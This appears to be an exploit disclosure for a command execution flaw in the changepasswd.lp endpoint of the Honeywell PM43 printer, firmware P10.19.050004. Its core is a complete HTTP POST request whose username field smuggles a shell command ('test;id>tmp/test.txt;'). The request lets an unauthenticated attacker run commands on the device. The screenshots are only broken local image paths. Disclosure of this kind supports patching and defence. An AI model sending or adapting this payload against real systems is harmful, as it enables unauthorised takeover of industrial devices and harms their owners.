 

#### Exploit Title

Honeywell Products changepasswd.lp command execution

#### Exploit Author

[webraybtl@webray.com.cn](mailto:webraybtl@webray.com.cn) inc

#### Vulnerability condition

Unlimited front desk

#### Vendor Homepage

https://www.honeywell.com

#### Version

Honeywell PM43 P10.19.050004

#### Description

There is a command execution vulnerability in Honeywell Products, through which an attacker can gain server privileges。

#### Payload used

![image-20231212105043937](/Users/w0lf/Library/Application Support/typora-user-images/image-20231212105043937.png)

```
POST /changepasswd.lp HTTP/1.1
Host: xx.xx.xx.xx
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_16_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: csrf=9467508602534952371f4aa348a930869a0c61de06e2f4df0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

username=test;id>tmp/test.txt;&userpassword=123456&pageid=1
```

![image-20231212104045382](/Users/w0lf/Library/Application Support/typora-user-images/image-20231212104045382.png)

![image-20231212104113596](/Users/w0lf/Library/Application Support/typora-user-images/image-20231212104113596.png)

